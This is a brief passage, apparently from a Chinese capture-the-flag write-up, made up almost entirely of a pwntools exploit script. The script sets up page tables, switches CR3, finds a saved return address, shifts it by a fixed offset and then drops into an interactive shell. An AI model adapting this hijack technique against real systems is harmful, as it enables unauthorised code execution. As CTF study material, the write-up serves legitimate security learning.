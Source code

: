 ```

payload = asm(
    """
    mov qword ptr [0x1000], 0x2003
    mov qword ptr [0x2000], 0x3003
    mov qword ptr [0x3000], 0x0003
    mov qword ptr [0x0], 0x3
    mov qword ptr [0x8], 0x7003

    mov rax, 0x1000
    mov cr3, rax

    mov rcx, 0x1028
look_for_ra:
    add rcx, 8
    cmp qword ptr [rcx], 0
    je look_for_ra

    add rcx, 24
overwrite_ra:
    mov rax, qword ptr [rcx]
    add rax, 0x249e6
    mov qword ptr [rcx], rax
    hlt
    """
)
#dbg()
sd("\x68\x00\x00\x00")
sd(payload)
rv(16)

sh.interactive()
```

成功截图如下：

![](picture/3.png)